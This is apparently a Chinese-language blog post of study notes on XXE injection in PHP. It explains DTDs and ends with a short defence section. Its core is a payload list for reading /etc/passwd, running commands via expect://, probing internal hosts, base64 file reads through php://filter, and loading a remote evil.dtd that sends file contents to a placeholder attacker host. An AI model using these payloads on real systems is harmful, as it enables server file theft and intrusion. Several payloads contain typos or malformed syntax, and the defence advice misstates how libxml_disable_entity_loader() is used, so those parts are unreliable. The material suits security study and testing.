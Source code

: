 ```yaml
---
layout: post
title: PHP_XXE 
date: 2022-10-1
categories: blog
tags: [笔记]
description: php_XXE漏洞 梳理

---
```


### PHP_XXE

****

#### **XXE**(XML External Entity Injection) 

外部实体注入，当web服务器解析XML文件时允许外部实体的引入引起的漏洞，在php中当`libxml库版本<=2.9.0`时，默认开启引用外部实体，在phpinfo界面可查看，此漏洞与php版本无关  

xml对于大小写敏感，xml中不允许出现%,<,>等等，要使用的话必须要经过转义,xml只能有一个根节点

#### DTD(DocumentType Definition)

文档类型定义,是以dtd为后缀的自定义约束文件，DTD定义了XML文档内容的结构，保证XML以一致的格式存储数据，XML允许用户创建自己的DTD约束  
将.dtd文件托管在VPS上，使服务器获取该文件并执行其中的恶意命令可以窃取服务器文件等

#### XML格式

```xml-dtd
#内部实体调用
<?xml version="1.0" encoding="utf-8" ?> #xml声明
<!DOCTYPE test[ #内部DTD 文档类型定义
    <!ELEMENT name ANY> #声明约束元素，内容随意
    <!ENTITY xxe SYSTEM "file:///etc/passwd"> #内部实体
]>
<test>  #文档元素
<name>&xxe;</name> #对实体的引用
</test>

#外部实体调用
<!ENTITY % payload SYSTEM "flie:///etc/passwd">
<!ENTITY % test SYSTEM "<!ENTITY &#37; pass SYSTEM 'http://x.x.x.x/index.php?test=%payload'>">
 #这是一个叫test.dtd的外部dtd文件
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test[
	<!ENTITY % cmd "http://x.x.x.x/test.dtd"> 
	%cmd;
	%payload;
	%test;
]>

```



#### 基础payload整理

```xml-dtd
#文件读取
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT a ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<a>
    <name>&xxe;</name>
</a>


#命令执行，需要expect扩展
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://ifconfig" >]>
<root>
<name>&xxe;</name>
</root>

#内网探测
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "http://x.x.x.x:PORT">]>
<root>
<name>&xxe;</name>
</root>

#远程加载恶意dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ENTITY % pe SYSTEM "http://x.x.x.x/evil.dtd">
%pe;
%param1;
]>
<foo>&external;</foo>
#evil.dtd
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://x.x.x.x/page?data=%payload;'>">

<!DOCTYPE root[
        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root><name>&xxe;</name></root>

#php filter文件读取
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root[
        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root><name>&xxe;</name></root>
```



#### php_XXE防御

禁用`libxml_disable_entity_loader()`函数  
升级libxml库版本>2.9.0  
过滤用户提交的XML数据

